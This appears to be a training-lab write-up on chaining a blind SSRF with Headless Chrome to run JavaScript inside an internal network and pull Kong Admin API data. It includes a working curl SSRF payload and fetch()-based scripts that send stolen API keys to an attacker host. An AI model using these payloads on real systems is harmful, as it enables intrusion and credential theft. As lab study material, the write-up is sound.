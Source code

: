 ## Understanding Headless Chrome

Initially, this might seem like another SSRF vulnerability but Headless Chrome is essentially a full browser without a UI.
The headless browser should still execute any JavaScript functions as it loads a web page.

If it does, we have the ability to run arbitrary JavaScript from the browser that is running on the remote server, which would give us the ability to extract data from other internal pages or services, send POST requests, and interact with the other internal resources in many different ways.

We can test this theory by hosting the following HTML webpage on our apache server:

```html
<html>
<head>
<script>
function runscript() {
    fetch("http://192.168.118.3/itworked");
}
</script>
</head>
<body onload='runscript()'>
<div></div>
</body>
</html>
```

Since the application does not return the page loaded with the SSRF vulnerability, we need another way to determine if the browser executes JavaScript.
Our JavaScript function uses _fetch()_ to make a call back to our Kali host.
The _onload_ event in the body tag calls our function. After placing this file in our webroot, let's use the SSRF vulnerability to call the render service pointed at this file:

![](../../03.%20Images/t9-ss24.png)

Making the following curl request:

```sh
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://<attacker IP>/hello.html"}' http://apigateway:8000/files/import
```

We see the following logs in our apache log file:

```ts
192.168.225.135 - - [12/Dec/2022:14:04:05 -0500] "GET /hello.html HTTP/1.1" 200 485 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"

192.168.225.135 - - [12/Dec/2022:14:04:05 -0500] "GET /itworked HTTP/1.1" 200 266 "http://192.168.119.225/hello.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36
```

The first entry lists the hello.html file that we used in the call to the Render API.
The second entry is from the JavaScript function. We have verified we can execute JavaScript in the Headless Chrome browser.

Thus, the attack chain is as follows:

![](../../03.%20Images/t9-ss25.png)

The attack flow is as follows:
1. We make a curl request with the SSRF payload
2. The Kong API Gateway proxies our request to the Files service endpoint on the Directus host.
3. The Directus application takes the value of the _url_ parameter(the render service in this case) and sends a GET request to that URL.
4. The Render service handles the GET request and reads the _url_ parameter out of the URL and sends a GET request to that URL using Headless Chrome.
5. The browser loads the HTML page from our attacker machine and executes the JavaScript, which makes a second GET request to our attacker machine.
6. Finally, the render service passes the result to the file service, however, since we're not authenticated, the reply shows us that we're forbidden.

## Blind SSRF to Simple SSRF

To turn our blind SSRF into a normal one and exfiltrate data, we will use JavaScript.
We'll attempt to use JavaScript to call the Kong Admin API from inside the network.
This might work because, the containers seem to have network connections that allow internal communication between themselves on ports that are not exposed externally.
This is evidenced by the SSRF being able to access port 8001 on (what we perceive to be) the Kong API Gateway host.

If the environment is running in a docker, the default settings allow for all ports on all containers to inter-communicate with each other.
For a port to be accessed from the outside, it needs to be published explicitly.

We will start by creating a script that will make a request to the Kong Admin API.
If the CORS are permissive enough, we will be able to access the response body, through the JavaScript.
If not, we will have to look at the documentation to see what we can do without reading the response.
The script will be as follows:

```JavaScript
function exfiltrate() {
    fetch("http://172.16.16.4:8001")
    .then((response) => response.text())
    .then((data) => {
        fetch("http://<attacker IP>/callback?" + encodeURIComponent(data));
    }).catch(err => {
        fetch("http://<attacker IP>/error?" + encodeURIComponent(err));
    }); 
}
```

When we check our access logs, we see the following:

![](../../03.%20Images/t9-ss26.png)

URL decoding the data and then using a js beautifier, we get loads of data:

![](../../03.%20Images/t9-ss27.png)

We get the username and password for the API, but this isn't useful as the password is hidden.
Going through the documentation of the Kong API, we see that we can get the user key, with the /key-auths end point. Thus we update our exfiltration script as follows:

```JavaScript
function exfiltrate() {
    fetch("http://172.16.16.4:8001/key-auths")
    .then((response) => response.text())
    .then((data) => {
        fetch("http://<attacker IP>/callback?" + encodeURIComponent(data));
    }).catch(err => {
        fetch("http://<attacker IP>/error?" + encodeURIComponent(err));
    }); 
}
```

And, we get the following reply:

![](../../03.%20Images/t9-ss28.png)

With this, we can now proceed to decode and beautify the data, and extract the key:

![](../../03.%20Images/t9-ss29.png)

We can now use this API key, to login, and explore the authenticated part of the application.

